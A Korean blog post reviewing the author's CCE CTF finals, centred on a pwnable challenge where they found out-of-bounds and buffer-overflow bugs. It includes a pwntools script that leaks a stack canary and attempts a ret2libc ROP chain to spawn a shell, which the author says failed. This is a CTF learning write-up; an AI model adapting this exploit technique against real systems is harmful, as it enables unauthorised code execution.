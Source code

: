```yaml
---
title: 'cce 본선 후기'
published: 2025-09-16
author: 'onLeaf'
description: '0솔ㅠㅠ'
image: ''
tags: ['cce']
category: 'cce'
draft: false
---
```

# cce 본선 후기
<br>
<br>

## 대회 시작 전

일단 매우 떨렸다.

cce 예선에서는 heapappy라는 이름의 **포너블 한 문제**밖에 못풀었는데 본선에서 1솔을 할 수 있을지에 대한 걱정이 매우 컸다.

또한, 본선은 **Live Fire**이라는 실시간 패치 문제도 있다고 해서 굉장히 떨렸다.

대회 장소도 굉장히 컸고 선물로 받은 텀블러도 매우 커서 스케일이 압도적이라는 것은 또 한번 느꼈다.

![](./cce_jangso.jpg)

## 대회 시작

지금까지 봤던 CTF 사이트의 구조와는 완전히 달랐다.

내가 그동안 접한 CTF는 분야를 알려줬었는데 CCE 본선에서는 **분야가 적혀있지** 않았다.

일단 난 nc가 문제 설명에 적혀있는 것만이 포너블 문제라고 생각했고 적힌 문제들만을 다운받았다.

### 그렇게 받은 문제들의 수는 단 **2개**였다.

![](./cce_problem.png)

솔직히 9시간동안 2문제인게 말이 안된다고 생각해서 당연히 추가 문제가 있을거라고 생각했다.

##### 근데 그게 다였다
<br>

어떻게 보면 당연하다고 느껴진다. 

**매우 어려웠기 때문에**
<br>

<br>

내가 풀던 문제는 **LNG 경보센터**라는 문제다.

### 퍼솔이 30분만에 나오고 결국 45개팀이 푼 문제였다. 

**보안기법은 다 걸려있었다**.

![](./cce_checksec.png)

그래도 겁먹지 말고 아는걸 다 쏟아야지 라는 생각을 했었다.

그렇게 **3시간이 지났다.**

![](./cce_code.png)**OOB**
![](./cce_code2.png)**BOF**
### OOB와 BOF를 노릴만한 취약점을 발견했다!

그후 **카나리 릭을 성공**하게 되었다.
![](./cce_canary.png)
```python
from pwn import *

def slog(name, addr): return success(': '.join([name, hex(addr)]))

p = process('./prob')
#p = remote('3.38.199.229',54321)
e = ELF('./prob')
canary = b''
def canary_leak(n):
    global canary
    p.sendlineafter(b'Select: ',b'12')
    p.sendlineafter(b'Employee Number: ',str(n).encode())
    p.sendlineafter(b'Select: ',b'5')
    p.recvuntil(b'Storage Level: ')
    canary += p8(int(p.recvline()))

canary_leak(10250)
canary_leak(10506)
canary_leak(10762)
canary_leak(11018)
canary_leak(11274)
canary_leak(11530)
canary_leak(11786)
canary_leak(12042)

slog('canary',u64(canary))

p.sendlineafter(b'Select: ',b'11')
p.sendlineafter(b'Select: ',b'4')

pay = b'A'*40 + canary + B'b'*8 + p64(pop_rdi) + p64(e.got['puts']) + p64(e.plt['puts'])
p.sendafter(b'Write any remarks: ',pay)
p.recvuntil(b'Remarks: ')
put_got = u64(p.recvn(6)+ b'\x00\x00')
libc_base = put_got - 0x87be0
system = libc_base + 0x58750
binsh =libc_base + 0x1cb42f
slog('put_got', put_got)
slog('libc base', libc_base)
slog('system', system)
slog('binsh', binsh)

pay = b'A'*40 + p64(canary) + b'B'*8 +p64(ret)+ p64(pop_rdi) + p64(binsh) + p64(system)

p.sendlineafter(b'Select: ',b'11')
p.sendlineafter(b'Select: ',b'4')
p.sendafter(b'Write any remarks: ',pay)

p.interactive()
```
##### 카나리 릭과 실패한 ROP 익스 
### 남은건 libc_base다.

여기서 막혔다. 

**OOB로 libc_base까지 leak**했어야 했다.

하지만 경험 부족으로 인해 **계속 puts의 got를 leak하는 것만을 생각했다.**

지금보면 가능할 것도 같다.

###### 도커를 사용할줄 알았더라면..

libc파일을 구하는걸 offset 이용해서 할 생각만 했었다.

결과적으로 6시간동안 삽질하고 대회가 끝났다.

## 대회가 끝나고

바로 도커 사용법부터 하나하나 자세히 익혔다.

그리고 깨닫게 되었다.

### 도커 빌드만 했으면 libc 파일을 바로 구할 수 있었다는 것을

저 문제에는 ROP와 관련한 가젯들이 존재하지 않았다.
<br>

<br>

**즉, libc에서 가젯을 가져와야만 ROP가 가능했다.**

도커 사용법을 깨달은 후 libc파일을 구하고 바로 풀이에 성공했다.

1솔도 못했다는게 참 아쉬웠다. 풀 수 있었던 문제였다는 점에서 더욱 아쉬웠다.

심각한 내 실력을 기르기 위해 **앞으로의 방향성을 고민해보았다.**

- dreamvm 풀기 
- 5단계도 슬슬 풀기
- 아직 수강하지 못한 UAF, Format String Bug 수강하기
- 그 후 강좌 SROP까지 수강하기

저 4가지를 한다면 내년 cce는 본선에서 1솔은 할거라고 믿는다.

-끝-